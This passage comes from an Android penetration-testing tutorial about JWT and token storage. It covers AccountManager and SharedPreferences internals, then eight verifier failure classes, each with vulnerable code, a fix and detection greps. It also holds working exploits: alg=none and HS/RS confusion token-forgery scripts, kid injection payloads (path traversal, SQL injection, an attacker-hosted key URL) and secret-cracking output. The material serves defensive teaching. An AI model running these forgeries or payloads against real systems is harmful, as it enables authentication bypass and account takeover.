> `android.util.Base64.decode(s, Base64.URL_SAFE)` will happily decode a segment containing
> `+` and `/`, because the decode table accepts both. That is convenient and it is also a
> **parser-differential hazard**: a token whose segments contain `+` may be rejected by a
> strict server-side library and accepted by the Android client, or the reverse.
>
> RFC 8725 §3.11 asks implementations to be strict for exactly this reason, and
> `examples/02-correct-verifier.py` rejects a segment containing `+`, `/` or `=` outright.
> When you are testing, a segment containing `+` or `/` is also a **fingerprint**: it means
> whoever produced the token used a standard-base64 encoder, which usually means a
> hand-rolled forgery rather than a library.

The correct incantation for JOSE, and the one you should expect to see in any app that
handles JWTs by hand:

```java
// Android — encoding a JOSE segment. All three flags are required.
String segment = Base64.encodeToString(
        bytes, Base64.URL_SAFE | Base64.NO_WRAP | Base64.NO_PADDING);
```

Miss `NO_WRAP` and a newline appears inside your token after 76 characters. Miss
`NO_PADDING` and `=` characters appear, which RFC 7515 §2 says to strip. Miss `URL_SAFE`
and you have emitted standard base64. Each of the three produces a token that *looks*
right and is rejected by a strict verifier, which is why hand-rolled JOSE encoding is a
reliable source of bugs — and why finding these three flags together in a decompiled app is
such a strong signal.

### 4.3 `AccountManager` — the path from `setAuthToken` to another app

When an app chooses `AccountManager` over its own storage, the token leaves the app's
sandbox and enters a system-managed one. Tracing the call shows exactly who can then read
it.

```
App calls
  android.accounts.AccountManager.setAuthToken(Account, String authTokenType, String authToken)
        |
        |  Binder transaction over IAccountManager.aidl
        v
  com.android.server.accounts.AccountManagerService.setAuthToken(...)
        |
        |  resolves the calling uid, checks it owns the account type
        v
  AccountManagerService.UserAccounts  ->  the per-user account database
        |
        v
  /data/system_ce/<userId>/accounts_ce.db     (credential-encrypted: passwords, tokens)
  /data/system_de/<userId>/accounts_de.db     (device-encrypted: account names and types)
```

Three things in that path decide the security outcome.

**The split between `accounts_ce.db` and `accounts_de.db` is a Direct Boot artefact.**
Credential-encrypted storage is unreadable until the user has unlocked the device after a
reboot, which is where auth tokens and passwords live. Device-encrypted storage is readable
from boot and holds only the account name and type. [33-Storage §3.2](../33-Storage/README.md)
owns the CE/DE distinction; the consequence here is that an attacker with a powered-off,
never-unlocked phone cannot reach the tokens, and one with a phone that has been unlocked
once since boot can, given root.

**The authenticator owns the account type.** `AccountManagerService` resolves which package
declared the `android.accounts.AccountAuthenticator` service for a given account type, by
reading the `<account-authenticator>` XML that the service's manifest points at. Only that
package — and packages sharing its signature — are treated as the owner.

**Everyone else needs a grant.** For an app that is *not* the authenticator,
`getAuthToken` triggers a permission check and, historically, a user-facing consent that is
recorded in a grants table. This is the mechanism that makes a token in `AccountManager`
potentially readable by another app, and it is why the severity question for option 4 in
§3.7 is always *"who else declares this account type, and what has been granted?"*

```bash
# adb shell — what the system knows about accounts, without root
adb shell dumpsys account | head -60

# which packages declare an account authenticator
adb shell "cmd package query-services --brief android.accounts.AccountAuthenticator" 2>/dev/null \
  || adb shell "dumpsys package | grep -A3 AccountAuthenticator" | head -40
```

> **🔬 Under the Hood — why `AccountManager` is not "more secure"**
> Developers reach for `AccountManager` because it sounds official, and some assume the
> system encrypts the token specially. It does not do anything the app's own private
> directory does not already do — both live under file-based encryption, both are
> unreadable by other UIDs by default. What `AccountManager` *adds* is a **sharing**
> mechanism and a **user-visible** account entry.
>
> So moving a token there does not raise the bar; it changes who else is in the
> conversation. That is a design decision, not a hardening measure, and a report that
> recommends `AccountManager` as a security improvement is wrong.

### 4.4 `SharedPreferencesImpl` — when the token actually hits the disk

The line `prefs.edit().putString("refresh_token", t).apply()` does not write a file. Tracing
`frameworks/base/core/java/android/app/SharedPreferencesImpl.java` shows what happens:

1. `edit()` returns an `EditorImpl` holding a `Map<String, Object>` of pending changes.
2. `putString` puts the value into that map. Nothing is on disk. Nothing is even in the
   live preference map yet.
3. `apply()` calls `commitToMemory()`, which merges the changes into the in-memory map
   **synchronously**, then enqueues the disk write on a background thread and returns
   immediately.
4. `commit()` does the same but blocks until `writeToFile` has completed, returning a
   boolean.
5. `writeToFile` writes the XML to a temporary file, `fsync`s, and renames it over the
   original, keeping a `.bak` of the previous version.

Three consequences for a token engagement:

**There is a window where the token is in memory but not on disk.** With `apply()`, a
process kill between step 3 and step 5 loses the write. This is why `examples/04-HardenedTokenStore.kt`
uses `commit()` in `logout()` — the user is leaving, and "the clear did not survive" is a
security-relevant loss, not just a data one.

**The `.bak` file is real.** `writeToFile` retains a backup of the previous contents.
A token "removed" from preferences can persist in `<name>.xml.bak` until the next
successful write. When you sweep an app's `shared_prefs/` directory, list every file,
not just the `.xml` you expected.

**`EncryptedSharedPreferences` sits on top of exactly this.** It is a Jetpack wrapper
implementing the same `SharedPreferences` interface, and it delegates storage to a normal
`SharedPreferencesImpl` after encrypting keys and values with Tink. So everything above
still applies: the same `.bak`, the same `apply()` window, the same file. Only the *values*
changed.

### 4.5 Tracing a token from the app to the wire, on a device

Putting it together, with commands that work on a stock device given the access:

```bash
# host — 1. find the app's uid and data dir
adb shell dumpsys package com.example.app | grep -E 'userId=|dataDir='

# 2. list the preference files, including backups and the encrypted variant
adb shell "run-as com.example.app ls -la /data/data/com.example.app/shared_prefs/"

# 3. read one. If the values are base64 blobs and the file mentions
#    androidx.security.crypto, it is Tink ciphertext.
adb shell "run-as com.example.app cat /data/data/com.example.app/shared_prefs/auth.xml"

# 4. the AccountManager side
adb shell dumpsys account | grep -A5 "com.example"

# 5. what is actually on the wire (needs a proxy; see 35-SSL)
#    Watch for which token goes in the Authorization header.
```

> **⚠️ Warning — measured on the device attached while this chapter was written**
> The device is an **i9000S, Android 13 / API 33, not rooted**. Every one of the three
> doors into private storage was shut:
>
> ``` <!-- lint:allow SU-DASH-C SU-DASH-C-BARE -- verbatim captured session on a device with no `su` at all; the quoting is moot here and the output is the genuine measurement -->
> $ adb shell su -c id
> /system/bin/sh: su: inaccessible or not found
> $ adb shell run-as com.synergyenf ls
> run-as: package not debuggable: com.synergyenf
> $ adb shell ls -ld /data/data/com.synergyenf
> ls: /data/data/com.synergyenf: Permission denied
> ```
>
> That is the **correct** behaviour of a stock device and the normal starting position on a
> real engagement. It also means that on this device, steps 2–4 above return nothing — and
> "nothing" is a fact about the shell, not about the app.
>
> `scripts/token-storage-sweep.sh` prints its access level first, before any results, for
> exactly this reason. Running it here produced:
>
> ```
> [ ] device        i9000S, API 33
> [ ] root          no  (/system/bin/sh: su: inaccessible or not found)
> [ ] run-as        no  (run-as: package not debuggable: com.synergyenf)
> [!] NO ACCESS TO PRIVATE STORAGE. Sections 1 and 2 below will find nothing, and that
> [!] is a fact about this shell, not about the app. Do not write 'no tokens stored'.
> ```

---

## 5. Security Perspective

This is the catalogue. Eight failure classes in how tokens are **verified**, then the
Android-specific leak paths, then honest severity, then the mappings.

Every class below follows the repository's standard shape: vulnerable code, why developers
write it, static and dynamic detection, the exploit, the fix as code, and honest severity.
Every one of them is executed for real in
[`labs/lab-02-the-jwt-attack-gauntlet.md`](labs/lab-02-the-jwt-attack-gauntlet.md), whose
measured output appears in §7.4.

### 5.1 Failure class 1 — `alg: none` accepted

**What it is.** The verifier reads `alg` from the token's header and dispatches on it. The
token says `none`. The verifier concludes no signature is required and accepts two segments
of attacker-written JSON.

**The vulnerable code**, from [`examples/01-broken-verifier.py`](examples/01-broken-verifier.py):

```python
# examples/01-broken-verifier.py — FLAW 1
alg = str(header.get("alg", "")).lower()
if alg == "none":
    return True, claims, "accepted: alg=none, signature not required"
```

**Why developers write it.** They almost never do. This flaw is overwhelmingly a **library
default** rather than application code: a JWT library that treats `none` as a supported
algorithm and a `verify()` call that does not pass an algorithm allow-list. The application
author wrote `jwt.decode(token, key)` and believed they had verified something. Several
widely used libraries shipped this behaviour and were patched; the pattern survives in
pinned versions, in vendored copies, and in hand-rolled implementations written by someone
who read the RFC and implemented all of it.

**The exploit.** Take a genuine token, replace the header, edit the claims, empty the third
segment. **Keep the trailing dot** — a token ending `.` is structurally a three-segment JWT
with a zero-length signature, and a verifier that splits on `.` will reject the version
without it, leading you to conclude wrongly that the attack failed.

```bash
# host — forge an alg=none token from a genuine one
python3 - <<'PY'
import base64, json, sys
def seg(o): return base64.urlsafe_b64encode(
        json.dumps(o, separators=(',',':'), sort_keys=True).encode()).rstrip(b'=').decode()
genuine = sys.argv[1] if len(sys.argv) > 1 else input("token: ")
claims = json.loads(base64.urlsafe_b64decode(
        genuine.split('.')[1] + '=' * (-len(genuine.split('.')[1]) % 4)))
claims['role'] = 'admin'                    # escalate while you are here
print(seg({"alg": "none", "typ": "JWT"}) + "." + seg(claims) + ".")
PY
```

Test the case variants too. A verifier that blocks the literal string `"none"` and nothing
else is bypassed by `"NoNe"`, `"NONE"` or `"nOnE"` — JSON is case-sensitive, string
comparison is case-sensitive, and many dispatch tables lowercase first and then fall into
the same accepting branch. The gauntlet tests both `none` and `NoNe` as A1 and A2.

**Detection, statically.** Grep for a decode without an algorithm list:

```bash
# host — after jadx -d out/ app.apk
grep -rn "JWT.decode\|parseClaimsJwt\|PlainJWT" out/sources/       # decode-only paths
grep -rn "verify(.*alg" out/sources/ | head
grep -rn "algorithms\s*=\s*\[" out/sources/                        # is there an allow-list?
```

**Detection, dynamically.** Send one. It is a single request and the answer is unambiguous.

**The fix, as code**, from [`examples/02-correct-verifier.py`](examples/02-correct-verifier.py):

```python
ALLOWED_ALGS = frozenset({"RS256"})          # decided by YOU, before any token arrives

alg = header.get("alg")
if not isinstance(alg, str) or alg not in ALLOWED_ALGS:
    return False, None, f"alg {alg!r} is not in the allow-list"
```

Note that this one comparison also closes §5.2 and every future algorithm nobody has
reviewed. It is the highest-value four lines in the file.

**Honest severity.** **Critical** where it works. It requires no key, no cryptography, and
no privileged position — a text editor is sufficient — and it yields authentication bypass
with arbitrary claims. But it must be **demonstrated**: `alg: none` appearing in a token
you were *given* is not the finding, because the issuer chose it. The finding is a verifier
that **accepts** one.

### 5.2 Failure class 2 — HS/RS algorithm confusion

**What it is.** The verifier holds one key blob and picks the cryptographic primitive from
the token's `alg`. The issuer signs RS256, so the blob is the **public** key — a value the
issuer publishes at its JWKS endpoint for the whole internet to fetch. The attacker changes
`alg` to `HS256`, and the verifier obediently uses that public value as an **HMAC secret**.

No key was stolen. No cryptography was broken. Public bytes were used for a second purpose.

**The vulnerable code**, from `examples/01-broken-verifier.py`:

```python
# examples/01-broken-verifier.py — FLAW 2
# One key blob for every algorithm family.
if alg.startswith("hs"):
    key = kid_key if kid_key is not None else LEGACY_HMAC_SECRET
    expected = b64url_encode(hmac.new(key, signing_input, hashlib.sha256).digest())
    ...
if alg.startswith("rs"):
    pub = serialization.load_pem_public_key(pub_pem)     # SAME BYTES
    pub.verify(...)
```

**Why developers write it.** Because a single `key` variable is obviously good design in
every other context, and because the two branches were written weeks apart by different
people. It also arises from a genuinely reasonable requirement — "we need to support both
RS256 from the IdP and HS256 from the legacy service" — implemented as one verifier with a
wider `alg` list instead of two verifiers.

**The exploit**, exactly as the gauntlet's attack A3 performs it:

```bash
# host
# 1. Fetch the issuer's public key. It is published. This is not an attack step.
curl -s https://issuer.example.com/.well-known/jwks.json | jq .
# or, if you have the PEM:
openssl rsa -pubin -in issuer-public.pem -text -noout | head -3

# 2. Re-sign the token as HS256, using the EXACT BYTES of the public key as the secret.
#    "Exact bytes" is the part people get wrong: PEM with the header and footer and the
#    trailing newline, or DER, or the modulus alone -- try each. The verifier used
#    whatever it read from disk or from the JWKS, so match that.
python3 - <<'PY'
import base64, hashlib, hmac, json
def seg(o): return base64.urlsafe_b64encode(
        json.dumps(o, separators=(',',':'), sort_keys=True).encode()).rstrip(b'=').decode()
pub = open("issuer-public.pem","rb").read()
claims = {"iss":"https://issuer.example.com","sub":"victim","aud":"the-app",
          "role":"admin","exp":9999999999}
si = seg({"alg":"HS256","typ":"JWT","kid":"rsa-2026-08"}) + "." + seg(claims)
sig = base64.urlsafe_b64encode(hmac.new(pub, si.encode(), hashlib.sha256).digest()).rstrip(b'=').decode()
print(si + "." + sig)
PY
```

> **🔍 Pentester's Note — the variants that make this work when the first attempt fails**
> The attack hinges on matching the exact byte sequence the verifier uses as its key. Try,
> in this order:
> 1. The **PEM text** including `-----BEGIN PUBLIC KEY-----`, the newlines, and the
>    trailing newline. This is the most common, because the verifier read a file.
> 2. The PEM **without** the trailing newline.
> 3. The **DER** bytes (the base64 body decoded).
> 4. The PKCS#1 form (`BEGIN RSA PUBLIC KEY`) rather than SPKI (`BEGIN PUBLIC KEY`).
> 5. The **modulus** `n` alone, as raw bytes or as the JWKS's base64url string.
> 6. The whole **JWKS JSON document**, if `kid` resolution reads a file — that is
>    gauntlet attack A5 and it works for the same reason.
>
> Six attempts, six requests. If none works, the verifier is probably not vulnerable — but
> record what you tried, because "I tried the PEM" is not the same as "I tested algorithm
> confusion".

**Detection, statically.** Look for a single key variable feeding two algorithm branches,
and for a verifier whose accepted-algorithm list is derived from the token:

```bash
# host
grep -rn "getAlgorithm()\|header.alg\|\"alg\"" out/sources/ | head -30
grep -rn "Algorithm.HMAC256\|Algorithm.RSA256" out/sources/     # Auth0 java-jwt
grep -rn "SignatureAlgorithm.forName" out/sources/              # JJWT, from the token
```

**The fix, as code.** Two independent controls, and you want both:

```python
# 1. The allow-list. If the issuer signs RS256, only RS256 is acceptable.
ALLOWED_ALGS = frozenset({"RS256"})

# 2. Keys are TYPED, held in per-algorithm maps. A public key is not reachable
#    from the HMAC path, so even a wider allow-list cannot cross the families.
def key_for(self, alg, kid):
    if alg == "RS256":
        return self.rsa_public_pems.get(kid), None      # RSA keys only
    if alg == "HS256":
        return self.hmac_secrets.get(kid), None         # HMAC secrets only
```

The second control is what the gauntlet actually exercises. Its measured rejection reason
for attack A3 is `key selection failed: unknown HMAC kid 'rsa-2026-08'` — the RSA key
simply is not present in the map the HMAC path reads.

**Honest severity.** **Critical** where it works, for the same reasons as §5.1, with the
additional weight that it defeats a system whose designers believed asymmetric signing made
client-side forgery impossible.

### 5.3 Failure class 3 — `kid` injection, and the self-describing key headers

**What it is.** Two related mistakes, both of which let the token influence which key
verifies it.

**`kid` injection.** `kid` is a key identifier in the header, so it is data written by
whoever wrote the token. Verifiers use it to *locate* a key — by file path, by database
query, or by URL. Every one of those is an injection sink.

```python
# examples/01-broken-verifier.py — FLAW 4
path = os.path.join(keydir, kid)          # no normalisation, no allow-list
with open(path, "rb") as fh:
    return fh.read()
```

| `kid` value | What happens |
|---|---|
| `../../../../dev/null` | A **zero-length** key. On POSIX, HMAC with an empty key. The classic form. |
| `../public/jwks.json` | A file the attacker downloaded, so its exact bytes are known. Gauntlet attack A5. |
| `' UNION SELECT 'attackerkey' --` | If `kid` is interpolated into SQL, the key becomes whatever you selected. |
| `https://attacker.example/k.json` | If the verifier fetches URLs, this is both key injection and SSRF from inside the server's network. |
| A NUL byte or a shell metacharacter | Depends entirely on the sink. Try them. |

**The self-describing headers.** `jku`, `x5u`, `jwk` and `x5c` are worse, because they do
not require the verifier to have a lookup bug — the token simply carries the key, or a URL
to it, and a verifier that honours the header accepts anything:

```
1. Attacker generates their own RSA keypair.
2. Attacker writes any claims they like.
3. Attacker signs with their PRIVATE key.
4. Attacker sets  jwk: <their PUBLIC key>   (or jku: https://attacker.example/jwks.json)
5. Verifier reads the header, takes the key from it, verifies... and it verifies perfectly.
```

**Why developers write it.** `kid` exists to support key rotation, which is a good thing to
support, and "look the key up by its identifier" is the obvious implementation. The
self-describing headers are in the RFC, so implementing them feels like completeness. RFC
8725 §3.8 exists precisely because completeness is the wrong instinct here.

**Detection, statically:**

```bash
# host
grep -rn "getKeyId()\|\"kid\"\|kid)" out/sources/ | head -20
grep -rn "jku\|x5u\|getJWKURL\|JWKSource" out/sources/
# and on the SERVER side, if you have it:
grep -rn "kid" --include=*.py --include=*.js --include=*.java . | grep -iE "open|read|path|join|query|url|fetch"
```

**Detection, dynamically.** Send tokens with each of the `kid` values in the table above
and read the error messages. A traversal that reaches a nonexistent file usually produces a
*different* error from a traversal that reaches a real one, and that difference is a file
existence oracle before it is anything else.

**The fix, as code:**

```python
# kid is a lookup in a map of keys you ALREADY trust. There is no filesystem, no
# database and no network anywhere in this function.
def key_for(self, alg, kid):
    if kid is None:
        return None, "header has no kid, and this verifier does not guess"
    ...
    pem = self.rsa_public_pems.get(kid)          # a dict lookup. That is all.
    if pem is None:
        return None, f"unknown RSA kid {kid!r}"
    return pem, None

# and, separately:
if "crit" in header:
    return False, None, "crit header present and this verifier implements no extensions"
# jku / x5u / jwk / x5c are never read at all.
```

The gauntlet's measured rejection for attack A5 is
`key selection failed: unknown HMAC kid '../public/jwks.json'` — the traversal string is
simply a dictionary miss.

**Honest severity.** **Critical** for `jku`/`jwk` acceptance and for a `kid` sink that
yields a controllable key. **High** for a `kid` traversal that reaches a file whose contents
you cannot control (still a file-existence oracle and often a path to something readable).
As always: it is the finding only when the **verifier** does it, not when the token merely
contains a suspicious `kid`.

### 5.4 Failure class 4 — a weak HMAC secret

**What it is.** The token is HS256 and the secret is something a human chose. Because the
verification equation is **entirely inside the token**, a captured token is a
self-contained, offline cracking target with no rate limit, no lockout, no logging, and no
way for the target to know it is happening.

```
signature == HMAC-SHA256( secret, base64url(header) + "." + base64url(payload) )
             \______/     \_________________________________________________/
             unknown                    all known, from the token
```

**Why developers write it.** Because "secret" sounds like "password", and the field in the
config file is called `JWT_SECRET`. A developer who would never choose a 9-character
password for a production database will happily type one here, because the mental category
is wrong. RFC 7518 §3.2 requires the key to be at least as long as the hash output — 32
bytes for HS256 — and RFC 8725 §3.5 says generate it from a CSPRNG.

**The exploit**, measured, using [`scripts/jwt-weak-secret.py`](scripts/jwt-weak-secret.py)
against a token minted by this chapter's own local issuer:

```
$ python3 -B scripts/jwt-weak-secret.py --token-file legacy.jwt
alg              HS256
kid              'hs-legacy'
signing input    316 bytes
signature        32 bytes
claims           aud, exp, iat, iss, jti, nbf, role, scope, sub

[*] built-in notorious list (72 entries)
    14 candidates in 0.000s (117,912/s)

========================================================================
  SECRET RECOVERED: 'Passw0rd!'
========================================================================
```

Fourteen candidates. `Passw0rd!` satisfies most corporate password policies — upper, lower,
digit, symbol, nine characters — and is in every wordlist ever published.

The rate matters for the argument, so it was measured too. Pure Python on this machine:

```
$ python3 -B scripts/jwt-weak-secret.py --token-file legacy.jwt --no-builtin --brute 4
    search space 1,727,604 candidates
    1,727,604 candidates in 6.400s (269,937/s)
```

**269,937 candidates per second in interpreted Python, on one core, with no GPU.**
`hashcat -m 16500` on a modern GPU is four orders of magnitude faster. Set against a
target that does not know it is being attacked and never will, that is the real threat
model for an HS256 secret.

**Detection, statically.** An HS* token in a mobile context is itself the signal:

```bash
# host — is there a symmetric secret compiled into the app?
grep -rn "HMAC256\|HmacSHA256\|SignatureAlgorithm.HS256\|MACSigner" out/sources/
grep -rniE "jwt.?secret|signing.?key|token.?secret" out/res/values/strings.xml out/sources/
strings lib/arm64-v8a/*.so | grep -iE "jwt|secret|hs256" | head
```

Finding one in the APK is a separate and worse finding: a mobile app holding the *minting*
key means every user can mint tokens for every other user.

**The fix, as code:**

```python
# generation -- the only acceptable answers look like this
import secrets
JWT_SECRET = secrets.token_bytes(32)          # 256 bits, from the OS CSPRNG
```
```bash
openssl rand -base64 48
```

Plus the verifier-side floor, which turns a deployment error into a startup failure rather
than a silent weakness:

```python
if len(secret) < 32:
    return None, ("HMAC key shorter than the 32-byte minimum for HS256 "
                  "(RFC 7518 section 3.2) -- this is a deployment fault")
```

And, strategically: **prefer asymmetric.** With RS256 or ES256 the verifier holds only a
public key, so a compromised resource server cannot mint tokens. `HS256` between two
services you control is defensible; `HS256` anywhere a mobile client is involved is not.

**Honest severity.** **Critical** if recovered — you can mint any claim set for any user.
If *not* recovered, be precise, because this is where reports overreach:

> *"The HS256 secret was not recovered from 1,727,604 candidates in 6.4 seconds of offline
> cracking."*

Never *"the secret is secure"*. You measured the wordlist, not the secret. The finding that
does not depend on cracking succeeding is that the token is **HS\*** at all, in a context
where every verifier can also mint.

### 5.5 Failure class 5 — missing or unenforced expiry

**What it is.** Either the token has no `exp`, or the verifier does not read it, or — the
most common and most insidious form — the verifier checks `exp` **only if it is present**.

```javascript
// the bug, in the shape it actually appears in
if (claims.exp && Date.now() / 1000 > claims.exp) {
    throw new Error("expired");
}
// delete the exp claim and this block never runs
```

**Why developers write it.** Defensive coding. Every other optional field is handled this
way and it is correct for every other optional field. The instinct that a missing value
should be tolerated is exactly backwards for a security check, and it is the same bug shape
as [45-OAuth](../45-OAuth/README.md)'s PKCE flaw — *"validate the verifier if we got one"*.

**The exploit.** Two variants, both trivial:

```bash
# host — variant A: replay an expired token and see whether it still works.
#   Costs nothing, needs no forgery, and answers the question completely.
curl -s -o /dev/null -w '%{http_code}\n' -H "Authorization: Bearer $OLD_TOKEN" \
     https://api.example.com/v1/me

# variant B: forge a token with exp DELETED (needs one of §5.1-5.4 to sign it)
```

Variant A is the one to run first on every engagement. It takes one request, needs no
tooling, and a 200 tells you every token this issuer has ever minted is still live.

**Detection, statically:**

```bash
# host
grep -rn "exp\b" out/sources/ | grep -iE "claim|getExpiration|expiresAt" | head
grep -rn "setAllowedClockSkew\|acceptLeeway\|clockSkew" out/sources/     # how generous?
```

A leeway above five minutes is worth asking about; one above an hour is a finding on its
own, because it silently extends every token's life.

**The fix, as code:**

```python
# exp is REQUIRED, not merely checked when present.
exp = claims.get("exp")
if not isinstance(exp, (int, float)):
    return False, None, "no numeric exp claim -- a token without an expiry is refused"
if now > exp + max_skew:
    return False, None, f"expired {int(now - exp)}s ago"
```

The gauntlet's attack A6 is a **genuinely, correctly signed** token that expired a year ago.
The broken verifier accepts it; the correct one rejects with `expired 31532400s ago`. That
pairing is the point of the whole class: nothing was forged, and the signature was never the
control that failed.

**Honest severity.** **Critical** for a token with no `exp` at all — it is a permanent
credential, and one leak is permanent access. **High** where `exp` exists but is not
enforced. **Medium** for a lifetime that is merely too long (see the table in §3.8), and
that is a design finding rather than a bug.

### 5.6 Failure class 6 — `iss` and `aud` never compared

**What it is.** The signature verified. Nobody asked **who signed it** or **who it was
for**.

A valid signature from key K proves only that the token came from whoever holds K. Two
gaps follow:

**`iss` unchecked.** A verifier holding several keys — because it federates with several
identity providers, or because it also verifies internal service tokens — will accept a
token from *any* issuer it trusts for *any* purpose.

**`aud` unchecked.** This is the one that ends up in bug bounty reports. A token minted for
a *different relying party*, by the *same* issuer, is accepted here. Since anyone can
register a client with a public identity provider — that is what public client registration
means — the attacker registers their own trivial app, gets a victim to sign into it, and
receives a **genuinely, correctly, provably signed** token for the victim's identity. The
signature check passes flawlessly. The only thing that would have caught it is `aud`.

[45-OAuth §5.1 Attack 6](../45-OAuth/README.md) has the full flow diagram, and its
[CTF path C](../45-OAuth/labs/lab-04-ctf-the-borrowed-identity.md) makes you exploit it
end to end. This chapter's contribution is the verifier side: what the check looks like and
what it costs to omit.

**Why developers write it.** Because `jwt.decode(token, key)` returns claims and looks
finished. Every library requires extra arguments to check `aud`, and PyJWT will happily
take `options={"verify_aud": False}` — a single keyword that turns a correct verifier into
a universal skeleton key.

**The exploit**, exactly as the gauntlet's A7 performs it: obtain a genuine token whose
`aud` is a client you control, and present it to the target.

```bash
# host — you do not need a victim to prove this.
# Register your own client at the same IdP, sign in as YOURSELF, take the id_token
# (whose aud is your test client), and present it to the target.
curl -s -X POST https://api.target.example/api/v1/social-login \
  -H 'Content-Type: application/json' \
  -d "{\"id_token\":\"$TOKEN_FROM_MY_OWN_CLIENT\"}" | jq .
# A session for your account, from a token minted for a different client,
# means aud is not checked -- and the same technique with a real victim
# yields their account.
```

Demonstrating it against your own account is sufficient proof and keeps you inside a sane
rules-of-engagement boundary.

**Detection, statically:**

```bash
# host
grep -rn "verify_aud\|withAudience\|requireAudience\|setExpectedAudience" out/sources/
grep -rn "withIssuer\|requireIssuer\|setExpectedIssuer" out/sources/
# their ABSENCE is the finding, so grep for the decode calls too and compare counts
grep -rn "\.decode(\|parseClaimsJws\|SignedJWT.parse" out/sources/ | wc -l
```

**The fix, as code:**

```python
# Exact string comparison. Not startswith. Not "contains". Not normalised.
if claims.get("iss") != trust.issuer:
    return False, None, f"iss {claims.get('iss')!r} != expected {trust.issuer!r}"

aud = claims.get("aud")
aud_list = [aud] if isinstance(aud, str) else (aud if isinstance(aud, list) else [])
if trust.audience not in aud_list:
    return False, None, f"aud {aud!r} does not contain {trust.audience!r}"
if len(aud_list) > 1 and claims.get("azp") not in (None, trust.audience):
    return False, None, f"multi-audience token whose azp is {claims.get('azp')!r}"
```

> **⚠️ Warning — prefix matching on `iss` is not a check**
> `if (iss.startsWith("https://issuer.example.com"))` is defeated by
> `https://issuer.example.com.attacker.example/`. `if (iss.contains(...))` is defeated by
> `https://attacker.example/?x=https://issuer.example.com`. Use `==` on the whole string,
> against a value from your configuration. The same applies to any `aud` or redirect
> comparison anywhere in [45-OAuth](../45-OAuth/README.md).

**Honest severity.** **Critical** for `aud`, because it is pre-authentication account
takeover of any user whose identity you can get a token for, and because it is entirely
independent of the mobile app — no amount of client hardening prevents it. **High** for
`iss` in a multi-issuer deployment; **Low** in a single-issuer one, where it is defence in
depth rather than the load-bearing check.

### 5.7 Failure class 7 — pure bearer semantics

Covered mechanically in [3.11](#311-sender-constraining-dpop-and-mtls). As a *finding*, it
needs care, because "the app uses bearer tokens" describes almost the entire internet.

It is **not a finding on its own**. It becomes one in combination:

| Combined with | Verdict |
|---|---|
| A refresh token with a 90-day lifetime and no rotation | **High.** One theft is three months of access. |
| A token with `payments.write` scope | **Medium to High.** The blast radius justifies the binding. |
| A token readable by another app on the device | **High.** The bearer property is what converts reachability into account access. |
| A short-lived, narrowly-scoped access token on a normal consumer app | **Informational.** Recommending DPoP here is over-engineering, and saying so is what makes the rest of the report credible. |

The way to write it is as an *amplifier* rather than a standalone item: "the token is a
pure bearer credential (no `cnf` claim), so the storage weakness in finding 3 results in
full account access rather than local data disclosure."

### 5.8 Failure class 8 — the token as an authorisation oracle

**What it is.** The token carries `role: admin` or `scope: payments.write`, and the
resource server **trusts it** rather than re-deriving the user's privileges from its own
data.

This one is different from the others, and that is why it is here. Even with a perfectly
verified token — correct algorithm, correct key, correct `iss`, `aud` and `exp` — trusting
an authorisation claim is a design weakness, for two reasons:

**It moves an authorisation decision into a value the client transports.** If any of the
seven preceding failure classes exists anywhere in the estate, the claim becomes forgeable
and privilege escalation is immediate.

**It creates a consistency window.** The token says `admin` because the user *was* an admin
when it was minted. They were demoted eleven minutes ago. The token is valid for four more
minutes. Every resource server will honour `admin` for those four minutes, and there is no
mechanism by which they could know otherwise.

**How to test it.** Two separate questions, and answer both:

1. **Can you forge the claim?** That is §5.1 through §5.4.
2. **Does it matter if you can?** Take a *legitimately obtained* low-privilege token and
   call a high-privilege endpoint. If the server re-derives privileges from its database,
   it refuses regardless of what the token says. If it refuses only because the token said
   `user`, then the claim is the control, and the claim is client-transported.

The second test is the valuable one and it does not require any forgery at all.

**The fix.** Use claims for **coarse** gating and cheap early rejection; re-derive
**fine-grained** authorisation server-side. `scope` is legitimate — it narrows what a token
may do below what the user may do — but it must be a *ceiling*, never a *grant*. The user's
actual permissions come from the database, and the effective permission is the intersection.

**Honest severity.** **High** when combined with any forgery path. **Medium** on its own,
written as an architectural finding with the consistency-window argument, because that is
the part a developer can act on without redesigning everything.

### 5.9 Android-specific leak paths

Chapters 33 and 21 own the mechanics. This is the token-shaped subset, with the test for
each.

| Channel | Mechanism | How to test |
|---|---|---|
| **logcat** | `Log.d(TAG, "resp=" + json)` in a token callback | `adb logcat --pid=$(adb shell pidof -s <pkg>)` during login; grep for `eyJ`, `Bearer`, `refresh_token`. Or `scripts/token-hooks.js`, which hooks `Log.*` directly. |
| **Crash reporters** | The whole `AuthState` attached to a crash report | Proxy the reporter's endpoint and force a crash. Third-party SDKs frequently capture more context than the app author realises. |
| **Analytics SDKs** | A screen-view event carrying the callback URI, or a user-properties call carrying the token | Proxy and watch third-party hosts during login, not just your API's host. |
| **Auto Backup** | `allowBackup` true and no exclusion rule for the token store | Read `android:fullBackupContent` / `android:dataExtractionRules` in the manifest. Exclusion must cover **both** `cloud` and `device-transfer`. |
| **`adb backup`** | Where still supported by the OEM | `adb backup -f b.ab <pkg>`. Its failure does **not** prove the data is not backed up — Auto Backup is a separate path. |
| **The SQLite WAL** | A session row deleted at logout survives in `-wal` | [33-Storage](../33-Storage/README.md) measured four "deleted" secrets alive in a 61,832-byte WAL. Pull `.db`, `.db-wal` and `.db-shm`. |
| **`.bak` preference files** | `SharedPreferencesImpl.writeToFile` keeps a backup | `ls -la shared_prefs/` and read every file, not just the `.xml` you expected. |
| **Exported components** | A provider or activity that returns or forwards the token | [27-ContentProviders](../27-ContentProviders/README.md) and [26-Intent](../26-Intent/README.md). |
| **Screenshots / recents** | A token rendered in a debug view, or a consent screen in the task thumbnail | Check `FLAG_SECURE` on sensitive activities. |
| **`dumpsys`** | Broadcast extras are recorded in cleartext | [29-BroadcastReceivers](../29-BroadcastReceivers/README.md) measured a test broadcast carrying `token=SUPERSECRET123` still readable afterwards. Anything you send while testing is recoverable. |
| **WebView** | A token injected into a page, or into `localStorage`, becomes reachable by any script that runs there | [43-WebView](../43-WebView/README.md). |

### 5.10 Honest severity — the section that matters most

> **⚠️ Warning — a captured token from your own test account is not a finding**
> You logged in as your own test user. You proxied the traffic, or you rooted the device
> and read the app's preferences file, or you attached Frida and hooked a getter. You now
> hold a token that grants access to **your own account**, which you already had access to,
> because it is your account.
>
> You have learned nothing that you did not already have. Writing that up as *"Sensitive
> Information Disclosure — Authentication Token"* is the single most common way a mobile
> report loses credibility, and a competent reviewer will reject it.

A token becomes a finding when at least one of these five is true, **and you have evidence
for the one you are claiming**:

| # | Condition | The evidence that proves it | Typical severity |
|---|---|---|---|
